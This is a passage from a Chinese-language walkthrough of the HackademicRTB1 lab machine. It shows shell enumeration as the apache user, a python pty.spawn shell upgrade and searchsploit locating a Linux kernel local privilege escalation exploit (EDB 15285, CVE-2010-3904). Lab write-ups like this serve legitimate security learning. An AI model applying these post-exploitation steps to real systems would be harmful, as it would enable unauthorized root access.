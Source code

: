         inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
        link/ether 00:0c:29:b7:25:81 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.140/24 brd 192.168.2.255 scope global eth1
        inet6 fe80::20c:29ff:feb7:2581/64 scope link 
           valid_lft forever preferred_lft forever
    bash-4.0$ uname -a
    uname -a
    Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
    bash-4.0$ sudo -l
    sudo -l
    sudo: sorry, you must have a tty to run sudo
    
    bash-4.0$ python -c 'import pty;pty.spawn("/bin/bash")';
    python -c 'import pty;pty.spawn("/bin/bash")';
    bash-4.0$ sudo -l
    sudo -l
    [sudo] password for apache: 
    sudo: 3 incorrect password attempts
    bash-4.0$ 
    ```

-   使用内核提权，查找匹配当前内核版本的exploit

-   经过多次尝试，确定当前版本适用于`linux/local/15285.c`

-   ![image-20230602094430724](https://raw.githubusercontent.com/r0o983/images/main/image-20230602094430724.png)

-   ```shell
    └─$ searchsploit Linux kernel 2.6.3 -m 15285.c                     
    [!] Could not find EDB-ID #
    
    
    [!] Could not find EDB-ID #
    
    
      Exploit: Microsoft IIS 5.0 - WebDAV Remote
          URL: https://www.exploit-db.com/exploits/2
         Path: /usr/share/exploitdb/exploits/windows/remote/2.c
        Codes: OSVDB-4467, CVE-2003-0109
     Verified: True
    File Type: Unicode text, UTF-8 text
    Copied to: /home/kali/Documents/WalkThrough/hackademic-rtb1/2.c
    
    
      Exploit: Linux Kernel 2.6.36-rc8 - 'RDS Protocol' Local Privilege Escalation
          URL: https://www.exploit-db.com/exploits/15285
         Path: /usr/share/exploitdb/exploits/linux/local/15285.c
        Codes: CVE-2010-3904
     Verified: True
    File Type: C source, ASCII text
    Copied to: /home/kali/Documents/WalkThrough/hackademic-rtb1/15285.c
    ```
